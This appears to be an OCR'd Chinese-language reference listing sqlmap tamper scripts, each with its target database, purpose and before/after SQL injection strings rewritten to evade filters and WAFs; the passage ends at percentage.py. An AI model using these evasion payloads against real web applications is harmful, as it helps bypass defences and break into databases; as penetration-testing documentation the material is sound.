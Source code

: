 适用数据库：ALL
作用：用加号替换空格
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT+id+FROM+users

nonrecursivereplacement.py

适用数据库：ALL
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
使用脚本前：tamper('1 UNION SELECT 2--')
使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

space2randomblank.py

适用数据库：ALL
作用：将空格替换为其他有效字符
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Did%0DFROM%0Ausers

unionalltounion.py

适用数据库：ALL
作用：将union allselect 替换为unionselect
使用脚本前：tamper('-1 UNION ALL SELECT')
使用脚本后：-1 UNION SELECT

securesphere.py

适用数据库：ALL
作用：追加特定的字符串
使用脚本前：tamper('1 AND 1=1')
使用脚本后：1 AND 1=1 and '0having'='0having'

space2dash.py

适用数据库：ALL
作用：将空格替换为--，并添加一个随机字符串和换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

space2mssqlblank.py

适用数据库：Microsoft SQL Server
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Eid%0DFROM%07users

between.py

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：用NOT BETWEEN 0 AND #替换>
使用脚本前：tamper('1 AND A > B--')
使用脚本后：1 AND A NOT BETWEEN 0 AND B--

percentage.py
